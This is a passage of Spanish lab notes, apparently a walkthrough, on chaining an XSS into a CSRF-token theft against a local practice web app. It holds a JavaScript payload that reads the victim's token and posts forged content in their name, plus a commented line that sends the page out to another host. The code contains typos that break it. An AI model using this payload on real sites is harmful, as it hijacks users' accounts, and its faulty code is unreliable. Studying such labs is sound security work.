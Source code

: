 ![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%2014.png)

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%2015.png)

Para hacer el ataque, hay que conseguir un valor de “_csrf_token” válido

- ¿Qué es un token CSRF?
    
    Un token CSRF es un valor secreto único e impredecible generado por una aplicación del lado del servidor y enviado al cliente para su inclusión en las solicitudes HTTP posteriores emitidas por el cliente.
    

El valor de este token está oculto y se puede ver al ver el código fuente de la web: 

![Untitled](Cross-Site%20Scripting%20(XSS)%20%5B1%202%5D%20y%20%5B2%202%5D%208d452909a3a648bb975b8da51251c41c/Untitled%2016.png)

Código:

```bash
var domain = "http://localhost:10007/newgossip"
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send();

var response = req1.responseText;
# OPCIONAL, esto sirve si se quiere ver la respuesta y verificar el 
# _csrf_token:
# var req2 = new XMLHttpRequest();
# req2.open('GET', 'http://localhost/?reponse=' + btoa(response));
# req2.send();
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req3 = new XMLHttpResponse();
var data = "title=burp&subtitle=HACKED&text=HACKED&_csrf_token=" + token;
req3.open('POST', domain, false);
req3.withCredentials = true;
req2.setRequestHeder('Content-Type', 'application/x-www-form-urlencoded');
req3.send(data);
```

Primero se quiere que el usuario envíe una petición al servidor al recurso “/newgossip” por lo que se utiliza la variable “req1” para enviar una solicitud síncrona ya que se requiere almacenar la petición antes de continuar con el código

Ahora se utiliza “DOMParser” para crear un nuevo documento a partir de una cadena de texto HTML almacenada en “response**”**. Luego, se utiliza “getElementsByName**”** en el documento “doc**”** para obtener una colección de elementos con el atributo “name**”** igual a **"**_csrf_token**"**. Finalmente, se accede al primer elemento de la colección “[0]**”** y se obtiene su valor mediante la propiedad “.value**”**. Esto se guarda en la variable “token**”**.

Ahora toca hacer que se envíe la petición a la web para crear un nuevo post a nombre del usuario el cual se le robó el “_csrf_token”. para esto se crea una nueva petición con “req3”, también se crea una variable “data” la cual contendrá el contenido del formulario para luego se tramitada por POST a la dirección URL de la web.
